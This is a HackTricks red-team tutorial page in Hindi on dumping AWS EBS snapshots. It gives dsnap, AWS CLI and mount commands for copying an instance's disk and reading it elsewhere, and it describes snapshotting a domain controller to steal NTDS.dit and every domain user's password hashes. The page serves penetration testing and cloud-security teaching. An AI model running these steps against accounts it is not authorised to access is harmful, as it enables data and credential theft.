 # AWS - EBS स्नैपशॉट डंप

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**GitHub रेपोज**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

### स्नैपशॉट की जांच स्थानीय रूप से
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध देखें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप इसे Pacu का उपयोग करके मॉड्यूल [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) के साथ कर सकते हैं

### AWS में एक स्नैपशॉट की जाँच करना

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**अपने नियंत्रण में एक EC2 VM में इसे माउंट करें** (यह उसी क्षेत्र में होना चाहिए जैसे कि बैकअप की प्रतिलिपि):

चरण 1: EC2 –> Volumes पर जाकर आपकी पसंदीदा आकार और प्रकार की एक नई वॉल्यूम बनाई जानी है।

इस कार्य को करने के लिए, निम्नलिखित कमांड्स का पालन करें:
- EC2 इंस्टेंस से जोड़ने के लिए एक EBS वॉल्यूम बनाएं।
- सुनिश्चित करें कि EBS वॉल्यूम और इंस्टेंस एक ही जोन में हैं।

चरण 2: बनाई गई वॉल्यूम पर राइट-क्लिक करके "attach volume" विकल्प चुना जाना है।

चरण 3: इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन किया जाना है।

इस कार्य को करने के लिए, निम्नलिखित कमांड का उपयोग करें:
- EBS वॉल्यूम को जोड़ें।

चरण 4: EC2 इंस्टेंस में लॉगिन करें और उपलब्ध डिस्क्स की सूची `lsblk` कमांड का उपयोग करके देखें।

चरण 5: `sudo file -s /dev/xvdf` कमांड का उपयोग करके जांचें कि वॉल्यूम में कोई डेटा है या नहीं।

यदि उपरोक्त कमांड का आउटपुट "/dev/xvdf: data" दिखाता है, इसका मतलब है कि वॉल्यूम खाली है।

चरण 6: `sudo mkfs -t ext4 /dev/xvdf` कमांड का उपयोग करके वॉल्यूम को ext4 फाइलसिस्टम में फॉर्मेट करें। वैकल्पिक रूप से, आप `sudo mkfs -t xfs /dev/xvdf` कमांड का उपयोग करके xfs फॉर्मेट भी उपयोग कर सकते हैं। कृपया ध्यान दें कि आपको ext4 या xfs में से एक का उपयोग करना चाहिए।

चरण 7: नई ext4 वॉल्यूम को माउंट करने के लिए अपनी पसंद की एक डायरेक्टरी बनाएं। उदाहरण के लिए, आप "newvolume" नाम का उपयोग कर सकते हैं।

इस कार्य को करने के लिए, कमांड `sudo mkdir /newvolume` का उपयोग करें।

चरण 8: `sudo mount /dev/xvdf /newvolume/` कमांड का उपयोग करके वॉल्यूम को "newvolume" डायरेक्टरी में माउंट करें।

चरण 9: "newvolume" डायरेक्टरी में डायरेक्टरी बदलें और डिस्क स्पेस की जांच करें ताकि वॉल्यूम माउंट की पुष्टि की जा सके।

इस कार्य को करने के लिए, निम्नलिखित कमांड्स का उपयोग करें:
- `/newvolume` में डायरेक्टरी बदलें।
- `df -h .` कमांड का उपयोग करके डिस्क स्पेस की जांच करें। इस कमांड का आउटपुट "newvolume" डायरेक्टरी में फ्री स्पेस दिखाना चाहिए।

आप Pacu का उपयोग करके `ebs__explore_snapshots` मॉड्यूल के साथ यह कर सकते हैं।

### AWS में एक स्नैपशॉट की जांच (cli का उपयोग करके)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### शैडो कॉपी

कोई भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वह **डोमेन कंट्रोलर का स्नैपशॉट बनाकर**, उसे अपने नियंत्रण वाले इंस्टेंस पर माउंट करके और **NTDS.dit और SYSTEM** रजिस्ट्री हाइव फाइल को Impacket के secretsdump प्रोजेक्ट के साथ उपयोग करने के लिए निर्यात करके सभी डोमेन उपयोगकर्ताओं के हैशेज की चोरी कर सकता है।

आप इस टूल का उपयोग करके हमले को स्वचालित कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप स्नैपशॉट बनाने के बाद पिछली तकनीकों में से एक का उपयोग कर सकते हैं।


# संदर्भ
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का अन्य तरीकों से समर्थन करें:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
